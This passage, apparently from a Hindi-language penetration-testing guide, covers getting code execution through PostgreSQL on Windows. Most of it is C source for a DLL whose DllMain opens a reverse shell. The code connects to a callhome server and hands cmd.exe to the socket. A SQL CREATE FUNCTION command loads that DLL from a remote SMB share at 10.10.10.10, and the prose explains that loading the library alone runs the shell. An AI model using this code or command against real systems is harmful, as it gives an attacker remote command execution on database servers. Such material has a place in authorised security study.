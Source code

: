 ```c
char ip_addr[16];
STARTUPINFOA startupinfo;
PROCESS_INFORMATION processinfo;

char *program = "cmd.exe";
const char *ip = PG_REVSHELL_CALLHOME_SERVER;
u_short port = atoi(PG_REVSHELL_CALLHOME_PORT);

WSAStartup(MAKEWORD(2, 2), &wsaData);
wsock = WSASocket(AF_INET, SOCK_STREAM,
IPPROTO_TCP, NULL, 0, 0);

struct hostent *host;
host = gethostbyname(ip);
strcpy_s(ip_addr, sizeof(ip_addr),
inet_ntoa(*((struct in_addr *)host->h_addr)));

server.sin_family = AF_INET;
server.sin_port = htons(port);
server.sin_addr.s_addr = inet_addr(ip_addr);

WSAConnect(wsock, (SOCKADDR*)&server, sizeof(server),
NULL, NULL, NULL, NULL);

memset(&startupinfo, 0, sizeof(startupinfo));
startupinfo.cb = sizeof(startupinfo);
startupinfo.dwFlags = STARTF_USESTDHANDLES;
startupinfo.hStdInput = startupinfo.hStdOutput =
startupinfo.hStdError = (HANDLE)wsock;

CreateProcessA(NULL, program, NULL, NULL, TRUE, 0,
NULL, NULL, &startupinfo, &processinfo);

return TRUE;
}

#pragma warning(pop) /* re-enable 4996 */

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum dummy_function(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(add_one);

Datum dummy_function(PG_FUNCTION_ARGS)
{
int32 arg = PG_GETARG_INT32(0);

PG_RETURN_INT32(arg + 1);
}
```
नोट करें कि इस मामले में **हानिकारक कोड DllMain फ़ंक्शन के अंदर है**। इसका मतलब है कि इस मामले में पोस्टग्रेसक्यूएल में लोड किए गए फ़ंक्शन को निष्पादित करने की आवश्यकता नहीं है, बस **DLL लोड करना** रिवर्स शेल **निष्पादित** करेगा:
```c
CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS '\\10.10.10.10\shared\dummy_function.dll', 'dummy_function' LANGUAGE C STRICT;
```
[पॉलीयूडीएफ परियोजना](https://github.com/rop-la/PolyUDF) भी एक अच्छा आरंभिक बिंदु है जिसमें पूरा एमएस विजुअल स्टूडियो परियोजना और एक तैयार पुस्तकालय (सहित: _कमांड इवैल_, _एक्जेक्यू_ और _क्लीनअप_) मल्टीवर्शन समर्थन के साथ है।
